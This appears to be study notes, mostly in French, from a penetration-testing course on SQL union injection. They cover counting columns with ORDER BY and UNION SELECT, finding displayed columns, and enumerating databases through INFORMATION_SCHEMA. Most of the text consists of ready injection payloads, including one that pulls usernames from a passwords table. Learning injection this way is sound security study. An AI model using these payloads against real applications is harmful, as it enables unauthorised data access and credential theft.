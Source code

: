 
Note: The data types of the selected columns on all positions should be the same.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

## Union Injection : 

On doit savoir le nombre de colonnes de la table avant de faire une injection SQL avec ORDER BY.

```sql
' order by 1-- -
```

Puis 2,3 ... jusqu'à avoir une erreur.

Avec UNION : 

```sql
cn' UNION select 1,2,3,4-- -
```

On aura une erreur tant que le select ne correspond pas au nombre exact de colonne.

Trouver quels sont les colonnes affichées : 

```sql
cn' UNION select 1,@@version,3,4-- -
```

## Database Enumeration : 

Pour savoir si on a une BD MySQL : 

![[Mysql.png]]

```sql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
```

```sql
SELECT * FROM my_database.users;
```

Dans l'exemple précédent : 

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
cn' UNION select 1,database(),2,3-- -
```
